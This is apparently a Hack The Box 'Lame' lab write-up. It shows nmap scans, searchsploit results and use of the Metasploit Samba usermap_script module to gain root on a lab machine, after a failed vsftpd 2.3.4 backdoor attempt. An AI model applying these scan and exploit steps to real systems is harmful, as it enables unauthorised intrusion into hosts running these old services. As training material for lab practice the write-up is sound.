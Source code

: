 ## NMAP Scan
`nmap -sC -v 10.10.10.3 -Pn`

## First Attack on FTP
Shows Port 21 FTP Login allowed amongst other opened ports.

`nc 10.10.10.3 21` shows `vsFTPd v2.3.4`.
`searchsploit vsftpd 2.3.4` shows `Backdoor Command Execution`.
However, metasploit attacks etc didn't work.

Sources:
- https://www.hackingtutorials.org/metasploit-tutorials/exploiting-vsftpd-metasploitable/
- https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/
- https://metalkey.github.io/vsftpd-v234-backdoor-command-execution.html

## Finding another attack vector
Our first NMAP scan was useless. Let's try more nmap scans!

`nmap --script nmap-vulners -sV 10.10.10.3 -Pn -v` but didn't turn out to be useful. (Source: https://securitytrails.com/blog/nmap-vulnerability-scan).

Let's try something else which turned out to be more useful.
`nmap -sC -sV -A -v 10.10.10.3 -Pn`
```
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.6
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h30m18s, deviation: 3h32m07s, median: 18s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2020-11-26T07:45:56-05:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

```

## Second attack on Port 445 Samba
Shows Samba smbd 3.0.20-Debian.
`searchsploit samba 3.0.20`.
```
hippoeug@kali:~$ searchsploit samba 3.0.20
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                      |  Path
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                                                              | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                                    | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                                                               | linux/remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow                                                                                               | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                                                       | linux_x86/dos/36741.py
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

There are a few interesting choices, but we are going for `Metasploit Username map script Command Execution`.
Researching it, we find https://securitytrails.com/blog/nmap-vulnerability-scan.
Let's run the metasploit script `use exploit/multi/samba/usermap_script`.

Boom, we got root access and find the flag!
